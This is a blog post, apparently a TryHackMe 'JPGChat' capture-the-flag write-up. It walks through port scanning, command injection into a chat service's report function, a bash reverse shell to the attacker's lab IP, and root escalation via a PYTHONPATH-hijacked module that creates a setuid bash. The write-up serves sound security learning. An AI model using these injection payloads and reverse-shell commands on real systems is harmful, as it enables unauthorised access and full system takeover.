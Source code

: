 ```yaml
---
layout: post
title:  "TryHackMe - JPGChat Writeup"
date:   2021-08-17 08:47:00 -0400
tags: tryhackme pentesting cybersecurity
comments: true
---
```


[JPGChat](https://tryhackme.com/room/jpgchat) was a very quick and easy box, but it does have a simple OSINT step that was a bit of fun to follow.

## Nmap Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versatile tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to instead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-p`: Scan specific ports. `-p<n>` will scan a specific port, and `-p-` scans every port from 1 to 65,535. While doing a full port scan is good, it can take a while, so it's good to let that one run while you're doing other tasks.

We'll run two Nmap scans. The first one will scan the top 1000 ports that are listening to give us a strong starting point, and the second scan will run in the background and check every possible port. Since this second scan will take longer, we can let it run in the background while we work on other things.

```bash
nmap -sC -sV -v -oN nmap-initial.nmap 10.10.54.184
nmap -p- -v -oN nmap-allports.nmap 10.10.54.184
```

Nmap finds two open ports: port 22 running SSH, and port 3000. While Nmap can't identify what service is running, it does try to give us some information that we can use to identify the service ourselves.

```
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

We get that same message if we try to connect using Netcat.

``` 
$ nc 10.10.54.184 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

There are two important facts that will help us proceed:

1. The name of the service is JPChat
2. The source code for the application is on GitHub somewhere.

## Command Injection

A quick Google search finds us a [GitHub repository](https://github.com/Mozzie-jpg/JPChat), and checking the source code seems to line up with the welcome message we got when connecting, so it's probably safe to assume this is the same application.

Inspecting the source code of the application, there's something interesting in the "report" function.

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

The input fields for our name and report are both passed to `os.system` without any kind of filtering. This means we can probably break out of the command that was intended to be run and run our own arbitrary commands.

We'll use a single-quote to break out of the initial `bash -c` command, add a semicolon to specify that we want to start a new command, and end things off with a pound sign to comment out the rest of the line. We can do a simple proof-of-concept before we actually start running anything malicious.

```
[REPORT]
this report will be read by Mozzie-jpg
your name:
'; whoami #
your report:
'; #

wes
```

Our `whoami` command gives us a username back, meaning we do indeed have successful command injection. Now we can build out a reverse shell to get proper access to the box. If you've never built a reverse shell before, there are [plenty of online resources](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to help you out. Below is one of the more basic and common bash reverse shells.

```
'; bash -c 'bash -i >& /dev/tcp/10.13.14.52/9001 0>&1'; #
```

We land as the `wes` user, who has access to the user flag. We know SSH is listening on the box, so while we're here we can also drop an SSH key in to give us better persistence. An SSH session will just be a much better experience than a reverse shell, plus it opens up potentially useful features like file transfers and port forwarding.

## Privilege Escalation
We'll start with some basic manual enumeration before we get into anything automated. There aren't any interesting files in `wes`'s home directory, but `sudo -l` gives us a useful find.

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

There are two things we should take away from this information:

1. `wes` can run the `test_module.py` script as root without entering a password.
2. The `PYTHONPATH` environment variable will be retained when running commands with `sudo`

The `test_module.py` script is only writeable by root, meaning we can't just edit it, so we'll need to find another way to exploit that script.

If you aren't already familiar with Python's environment variables, a quick Google search will show you that the `PYTHONPATH` variable declares the location that Python should look for modules and packages. We can read the contents of the `test_module.py` and see that it imports the `compare` module. If we could make our own malicious `compare` module and force the script to load it with the `PYTHONPATH` variable, that should be enough to root the box.

```python
import os

class compare:
  def Str(s1,s2,s3):
    os.system('cp /bin/bash /bin/sbash')
    os.system('chmod +s /bin/sbash')
```

This script creates a copy of `bash` and then sets the [setuid bit](https://man7.org/linux/man-pages/man2/setuid.2.html) on that copy, which will give us a root shell if we run the copy with the `-p` flag. We'll create a folder to store our script in, save it as `compare.py`, and add that folder to the `PYTHONPATH` variable.

```bash
export PYTHONPATH=/home/wes/mod
sudo python3 /opt/development/test_module.py
/bin/sbash -p
```

We now have root access and can grab the root flag.
